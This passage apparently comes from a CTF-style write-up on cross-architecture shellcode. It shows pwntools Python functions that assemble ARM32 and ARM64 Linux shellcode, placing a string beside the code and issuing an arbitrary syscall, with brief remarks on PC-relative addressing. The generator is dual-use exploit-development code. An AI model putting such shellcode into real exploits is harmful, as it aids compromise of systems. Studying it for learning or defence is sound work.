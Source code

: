 For my implementation, I loaded the string into the same region as the shellcode with an offset of `0x5000` from the instruction pointer, but looking back at it, loading string onto the stack might be easier.

The next architecture to conquer is ARM32:

```python
def get_arm32(sys_num, arg1, arg2):
  p1 = int(pack_str(arg2[:4]),16)
  p2 = int(pack_str(arg2[4:]),16)

  payload = asm('''
    add r0, pc, #0x5000
    mov r3, r0

    ldr r1, =#{p1}
    str r1, [r0]
    
    add r0, r0, #4
    ldr r1, =#{p2}
    str r1, [r0]


    mov r1, r3
    mov r0, {arg1}
    mov r7, {sys_num}
    SWI 0
  '''.format(arg1=arg1, sys_num=sys_num, p1=p1, p2=p2), arch = 'arm', os = 'linux')

  print disasm(payload, arch = 'arm', os = 'linux')

  return payload
```

One thing that I found interesting about ARM is the fact that you can directly access the instruction pointer which is quite different from x86.

After implementing ARM32, ARM64 becomes quite easy:

```python
def get_arm64(sys_num, arg1, arg2):
  p = int(pack_str(arg2, 8),16)

  payload = asm('''
    adr x0, .
    add x0, x0, #20480
    mov x3, x0

    ldr x1, ={p}
    str x1, [x0]

    mov x1, x3
    mov x0, {arg1}
    mov x8, {sys_num}
    svc #0
  '''.format(arg1=arg1, sys_num=sys_num, p=p), arch = 'aarch64', os = 'linux')

  print disasm(payload, arch = 'aarch64', os = 'linux')

  return payload
```
